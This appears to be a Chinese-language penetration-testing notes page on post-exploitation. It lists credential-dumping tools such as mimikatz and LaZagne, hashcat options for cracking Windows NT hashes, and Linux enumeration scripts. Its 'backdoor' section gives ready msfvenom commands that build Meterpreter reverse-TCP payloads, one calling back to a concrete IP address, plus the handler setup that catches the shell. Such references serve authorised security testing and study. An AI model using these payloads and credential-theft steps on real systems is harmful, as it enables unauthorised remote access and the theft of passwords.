 metasploit

本地漏洞扫描工具

windows/linux exploit suggester

### 本地口令获取和破解

hash-identifier 判断哈希类型

mimikatz

Mimipenguin

LaZagne  
http://next.uuzdaisuki.com/2019/12/07/%E4%B8%A4%E6%AC%BE%E5%AF%86%E7%A0%81%E6%8F%90%E5%8F%96%E5%B7%A5%E5%85%B7%E7%9A%84%E9%85%8D%E7%BD%AE%E5%92%8C%E4%BD%BF%E7%94%A8/

hashcat + 口令字典  
http://next.uuzdaisuki.com/2020/07/28/%E5%93%88%E5%B8%8C%E5%AF%86%E7%A0%81%E7%88%86%E7%A0%B4%E5%B7%A5%E5%85%B7hashcat/

```
--hash-type 0 --attack-mode 0
-m选择哈希类型
1000为windows nt hash
-a选择模式
0 Straight（字典破解）
1 Combination（组合破解）
3 Brute-force（掩码暴力破解）
6 Hybrid dict + mask（混合字典+掩码）
7 Hybrid mask + dict（混合掩码+字典）
```

### 本地信息收集

linuxprivchecker

LinEnum

### 后门

常见后门手法

metasploit  

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=170.170.64.17 LPORT=4444 -f elf -o reverse_tcp_linux64
msfvenom -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 -f exe -o reverse_tcp.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST xxx.xxx.xxx.xxx
set LPORT 4444
run

常用后续命令
https://www.cnblogs.com/backlion/p/9484949.html
```
